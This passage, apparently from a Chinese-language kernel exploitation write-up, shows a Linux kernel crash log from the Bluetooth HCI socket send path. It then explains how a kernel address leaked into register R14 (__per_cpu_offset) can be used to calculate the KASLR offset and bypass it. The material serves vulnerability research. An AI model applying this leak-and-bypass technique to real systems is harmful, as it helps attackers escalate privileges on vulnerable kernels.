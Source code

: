 ```
[   17.796926] R10: 0000000000000000 R11: ffffffffbdc4cf18 R12: 0000000000000000
[   17.797109] R13: ffff9db3021b4c00 R14: ffffffffbdb106a0 R15: ffff9db302260860
[   17.797328] FS:  00007fa9edf9d740(0000) GS:ffff9db33ec00000(0000) knlGS:0000000000000000
[   17.797541] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[   17.797699] CR2: 0000000000000000 CR3: 000000000225c000 CR4: 00000000001006f0
[   17.797939] Call Trace:
[   17.798694]  queue_work_on+0x1b/0x30
[   17.798865]  hci_sock_sendmsg+0x3bc/0x960
[   17.798973]  sock_sendmsg+0x56/0x60
[   17.799081]  sock_write_iter+0x92/0xf0
[   17.799170]  do_iter_readv_writev+0x145/0x1c0
[   17.799303]  do_iter_write+0x7b/0x1a0
[   17.799386]  vfs_writev+0x93/0x160
[   17.799527]  ? hci_sock_bind+0xbe/0x650
[   17.799638]  ? __sys_bind+0x8f/0xe0
[   17.799725]  ? do_writev+0x53/0x120
[   17.799804]  do_writev+0x53/0x120
[   17.799882]  do_syscall_64+0x33/0x40
[   17.799969]  entry_SYSCALL_64_after_hwframe+0x44/0xae
[   17.800186] RIP: 0033:0x7fa9ee08d35d
[   17.800405] Code: 28 89 54 24 1c 48 89 74 24 10 89 7c 24 08 e8 ca 26 f9 ff 8b 54 24 1c 48 8b 74 24 10 41 89 c0 8b 7c 24 08 b8 14 00 00 00 0f 05 &lt;48&gt; 3d 008
[   17.800798] RSP: 002b:00007ffe3c870e00 EFLAGS: 00000293 ORIG_RAX: 0000000000000014
[   17.800969] RAX: ffffffffffffffda RBX: 0000556f50a02f30 RCX: 00007fa9ee08d35d
[   17.801118] RDX: 0000000000000003 RSI: 00007ffe3c870ea0 RDI: 0000000000000005
[   17.801267] RBP: 00007ffe3c870ee0 R08: 0000000000000000 R09: 00007fa9edf87700
[   17.801413] R10: 00007fa9edf879d0 R11: 0000000000000293 R12: 0000556f50a00fe0
[   17.801560] R13: 00007ffe3c870ff0 R14: 0000000000000000 R15: 0000000000000000
[   17.801769] Modules linked in:
[   17.801928] CR2: 0000000000000000
[   17.802233] ---[ end trace 2bbc14e693eb3d8f ]---
[   17.802373] RIP: 0010:__queue_work+0xb2/0x3b0
[   17.802492] Code: 8b 03 eb 2f 83 7c 24 04 40 0f 84 ab 01 00 00 49 63 c4 49 8b 9d 08 01 00 00 49 03 1c c6 4c 89 ff e8 73 fb ff ff 48 85 c0 74 d5 &lt;48&gt; 39 030
[   17.802874] RSP: 0018:ffffac4d8021fc20 EFLAGS: 00000086
[   17.803019] RAX: ffff9db3013af400 RBX: 0000000000000000 RCX: 0000000000000000
[   17.803166] RDX: 0000000000000000 RSI: 0000000000000003 RDI: ffffffffbdc4cf10
[   17.803313] RBP: 000000000000000d R08: ffff9db301400040 R09: ffff9db301400000
[   17.803458] R10: 0000000000000000 R11: ffffffffbdc4cf18 R12: 0000000000000000
[   17.803605] R13: ffff9db3021b4c00 R14: ffffffffbdb106a0 R15: ffff9db302260860
[   17.803753] FS:  00007fa9edf9d740(0000) GS:ffff9db33ec00000(0000) knlGS:0000000000000000
[   17.803921] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[   17.804042] CR2: 0000000000000000 CR3: 000000000225c000 CR4: 00000000001006f0

```

Wow，可以看到寄存器 RDI, R11 以及 R14 都放着非常可疑的内核地址。通过查看 `System.map` 我们发现寄存器 `R14` 正好存放着全局数据对象 `__per_cpu_offset` 的地址 （调试环境下还没有开启KASLR），那么我们可以通过它来计算 KASLR 的偏移，以绕过随机化保护。

```
$ cat System.map | grep bdb106a0
ffffffffbdb106a0 R __per_cpu_offset
```
